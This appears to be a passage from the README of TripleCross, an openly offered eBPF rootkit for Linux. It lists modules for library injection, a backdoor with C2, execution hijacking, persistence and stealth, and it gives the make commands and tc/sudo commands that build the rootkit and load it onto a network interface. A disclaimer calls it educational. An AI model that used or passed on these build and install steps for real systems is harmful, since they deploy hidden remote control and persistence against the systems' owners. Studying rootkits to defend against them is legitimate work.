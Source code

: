 | src/vmlinux |  Headers containing the definition of kernel data structures (this is the recommended method when using libbpf) |


## Disclaimer
This rookit is **purely for educational and academic purposes**. The software is provided "as is" and the authors are not responsible for any damage or mishaps that may occur during its use.

Do not attempt to use TripleCross to violate the law. Misuse of the provided software and information may result in criminal charges.

## Table of Contents
1. [Build and Install](#build-and-install)
2. [Library injection module](#library-injection-module)
3. [Backdoor and C2](#backdoor-and-c2)
4. [Execution hijacking module](#execution-hijacking-module)
5. [Rootkit persistence](#rootkit-persistence)
6. [Rootkit stealth](#rootkit-stealth)

### Build and Install
#### Compilation
The rootkit source code is compiled using two Makefiles.
```
# Build rootkit
cd src
make all
# Build rootkit client
cd client
make
```
The following table describes the purpose of each Makefile in detail:

| MAKEFILE  | COMMAND | DESCRIPTION | RESULTING FILES |
| ------------- | ------------- | ------------- | ------------- |
| src/client/Makefile  | make  | Compilation of the rootkit client | src/client/injector |
| src/Makefile  | make help  | Compilation of programs for testing rootkit functionalities, and the malicious program and library of the execution hijacking and library injection modules respectively | src/helpers/simple_timer, src/helpers/simple_open, src/helpers/simple_execve, src/helpers/lib_injection.so, src/helpers/execve_hijack |
| src/Makefile | make kit | Compilation of the rootkit using the libbpf library | src/bin/kit |
| src/Makefile | make tckit | Compilation of the rootkit TC egress program | src/bin/tc.o |

### Installation
Once the rootkit files are generated under src/bin/, the *tc.o* and *kit* programs must be loaded orderly. In the following example the rootkit backdoor will operate in the network interface *enp0s3*:
```
// TC egress program
sudo tc qdisc add dev enp0s3 clsact
sudo tc filter add dev enp0s3 egress bpf direct-action obj bin/tc.o sec classifier/egress
// Libbpf-powered rootkit
sudo ./bin/kit -t enp0s3
```
